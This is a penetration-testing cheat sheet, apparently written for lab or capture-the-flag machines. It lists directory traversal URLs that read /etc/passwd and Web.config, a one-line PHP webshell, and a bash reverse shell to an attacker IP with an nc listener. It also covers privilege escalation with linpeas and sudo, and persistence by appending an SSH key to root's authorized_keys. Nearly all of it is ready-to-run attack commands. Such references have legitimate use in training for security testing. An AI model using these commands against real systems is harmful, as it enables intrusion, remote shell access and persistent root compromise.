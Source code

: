 ### Directory Traversal

```
 http://target.com/vuln?page=../../../../../../../etc/passwd
 http://target.com/vuln?page=?page=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Finetpub%2Fwwwroot%2FWeb.config

```


### Webshell PHP

```bash
$ echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php  # Create a webshell php file
$ curl http://SERVER_IP:PORT/shell.php?cmd=id	                   # Execute a command on an uploaded webshell
Shell> bash -c "bash -i >& /dev/tcp/10.10.14.47/4008 0>&1"         # nc -lvnp 4008
$ python3 -c 'import os; os.system("/bin/bash");'
```


---

# Privilege Escalation

```bash
$ ./linpeas.sh	                        # Run linpeas script to enumerate remote server
$ sudo -l	                            # List available sudo privileges
$ sudo -u user /bin/echo Hello World!	# Run a command with sudo
$ sudo su -	                            # Switch to root user (if we have access to sudo su)
$ sudo su user -	                    # Switch to a user (if we have access to sudo su)
```

## SSH Key to User

```bash
$ ssh-keygen -f key                     # Create a new SSH key
```

>This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine. Let us copy key.pub, then on the remote machine, we will add it into /root/.ssh/authorized_keys:

```bash
$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys  # Add the generated public key to the user
$ ssh root@10.10.10.10 -i key	                                              # SSH to the server with the generated private key
$ ssh user1@83.136.254.60 -p 42785                                            # SSH to a specific port  
```

### SSH Keys

